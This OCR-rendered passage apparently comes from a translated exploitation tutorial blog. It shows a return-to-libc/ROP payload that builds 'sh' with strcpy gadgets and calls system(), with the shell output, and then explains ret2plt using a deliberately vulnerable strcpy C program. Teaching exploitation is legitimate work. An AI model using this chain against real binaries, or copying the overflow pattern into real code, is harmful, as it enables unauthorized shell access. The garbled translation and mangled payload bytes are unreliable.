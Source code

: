 > "x92x85x04x08" . # pop;pop;ret  
> "x1dxa0x04x08" . # .data+5  
> "x62x81x04x08" . # "s"  
> "x70x83x04x08" . # strcpy  
> "x92x85x04x08" . # pop;pop;ret  
> "x1exa0x04x08" . # .data+6  
> "x6cx86x04x08" . # "h"  
> "x80x1fxe0xf7" . # system  
> "x10x4fxdfxf7" . # exit  
> "x18xa0x04x08"'` . # .data  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp��� �T�p��� �W�p��� �]�p��� �T�p��� �b�p��� �l�� �� O�� �  
sh-4.4$``

**\* Pum \*** Satisfied when an exploit works the first first…  
Note that, while the executable is not PIE, and in case of obtaining the addresses of system() and exit() otherwise, as plt, whether the libraries have enabled ASLR; ASLR not affect us in the stack.

However, life is beautiful and it is not always possible to do things this way: if I put the challenge yesterday, at the end of the post, it was … difficult thing to run the setuid(0) since being exploiting a strcpy() we cannot use null bytes [\[1\]](https://www.blogger.com/blogger.g?blogID=5766640353100096186&pli=1#asdfgh)(Solution to the challenge below). Another possible problem is for libraries (or in case of binary PIE) are loaded into memory locations beginning with 0x00 (ASCII Armored Protection Address Space, AAAS). In the event that the binary is not affected by ASLR (being not-foot) or AAAS and libraries itself ret2plt is an option: jump to the input of said function in binary .plt section. .Plt section (_Procedure Linkage Table_) is a kind of index to dynamically linked program so that the program loaded in memory, the linker (ld on Linux) placed at each entrance plt the corresponding direction to said function (only in the case of library functions).  
Example  

    $ cat a.c
    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>

void asd()  
{  
system(NULL);  
exit(0);  
}

void imprimir(char\* arg)  
{  
char buf\[128\];  
strcpy(buf, arg);  
printf(“%sn”, buf);  
}

int main(int argc, char\*\* argv)  
{  
if(argc < 2) return 1;  
imprimir(argv\[1\]);  
return 0;  
}

